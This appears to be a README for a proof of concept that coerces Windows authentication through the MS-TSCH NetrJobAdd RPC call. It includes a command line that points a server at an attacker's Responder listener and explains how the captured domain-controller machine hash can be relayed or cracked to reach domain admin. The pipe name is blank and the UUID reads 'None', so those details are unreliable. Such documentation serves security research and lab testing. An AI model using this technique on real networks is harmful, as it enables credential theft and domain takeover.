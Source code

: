 # MS-TSCH - Remote call to NetrJobAdd (opnum 0)

## Summary

+ **Protocol**: [[MS-TSCH]: Task Scheduler Service Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931)

+ **Protocol UUID**: None

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`NetrJobAdd`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/920fb461-5cb5-41cc-b0fc-d9449d9976b8)

+ **Function operation number**: `0`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-TSCH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) protocol (with uuid `None` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-TSCH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-TSCH]: Task Scheduler Service Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) and allows to call RPC functions of this protocol. We will then call the remote [`NetrJobAdd`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/920fb461-5cb5-41cc-b0fc-d9449d9976b8) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrJobAdd('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrJobAdd(
   [in, string, unique] ATSVC_HANDLE ServerName,
   [in] LPAT_INFO pAtInfo,
   [out] LPDWORD pJobId
 );
```

## References

+ Documentation of protocol [MS-TSCH]: Task Scheduler Service Remoting Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931

+ Documentation of function `NetrJobAdd`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/920fb461-5cb5-41cc-b0fc-d9449d9976b8